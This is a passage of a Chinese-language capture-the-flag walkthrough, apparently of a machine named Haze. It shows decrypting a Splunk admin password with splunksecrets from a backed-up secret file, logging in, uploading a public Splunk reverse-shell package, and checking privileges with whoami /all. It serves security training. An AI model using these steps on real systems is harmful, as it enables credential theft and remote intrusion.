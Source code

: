然后用**splunksecrets**进行解密，注意这里的**secret**是备份代码中的。

```
[root@kali] /home/kali/Haze  
❯ splunksecrets splunk-decrypt -S splunk/Splunk/etc/auth/splunk.secret                                                                        ⏎
Ciphertext: $1$YDz8WfhXXXXXXXXXXXXXXX
Sp1unkXXXXXXXXXX
```

使用用户名**admin**即可登录到后台

![](./images/image-371.png)

- [0xjpuff/reverse\_shell\_splunk: A simple splunk package for obtaining reverse shells on both Windows and most \*nix systems.](https://github.com/0xjpuff/reverse_shell_splunk)

根据说明修改**ip**和端口后上传，得到反弹**shell**

![](./images/image-372.png)

查看当前用户的权限信息

```
PS C:\Windows\system32> whoami /all

USER INFORMATION
----------------

User Name            SID                                        
==================== ===========================================
haze\alexander.green S-1-5-21-323145914-28650650-2368316563-1106

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                         Attributes                                        
========================================== ================ =========================================== ==================================================
```